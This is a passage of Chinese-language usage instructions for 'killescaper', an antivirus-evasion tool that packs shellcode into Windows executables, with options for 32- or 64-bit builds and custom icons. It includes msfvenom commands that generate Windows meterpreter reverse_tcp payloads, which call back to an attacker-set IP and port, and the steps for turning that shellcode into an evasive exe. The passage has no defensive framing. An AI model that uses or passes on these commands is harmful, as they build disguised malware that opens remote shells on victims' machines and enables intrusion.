  * 

    
    
    python killescaper -a 32 -f payload32.c #根据shellcode生成32位的exe执行文件

  

自定义图标：

  * 

    
    
    python killescaper -a 64 -f payload64.c -i logo.ico #生成一个以logo.ico为图标的exe执行文件

  

清理输出文件夹：

  * 

    
    
    python killescaper --clean #清理output/所有文件

  

 **metasploit生成免杀**

只讲生成免杀的步骤，执行及如何返回监听请查看 效果演示 的视频。

1.msfvenom生成shellcode

x64:

  * 

    
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=IP lport=PORT -f python -a x64 > shellcode.txt

  

x32:

  * 

    
    
    msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f python -a x86 > shellcode.txt

  

  
  
  
![](https://gitee.com/fuli009/images/raw/master/public/20230622112618.png)  
  

  

2.将shellcode.txt复制到本地

3.运行脚本生成exe

python killEscaper.py -a 64 -f shellcode.txt

  

  
  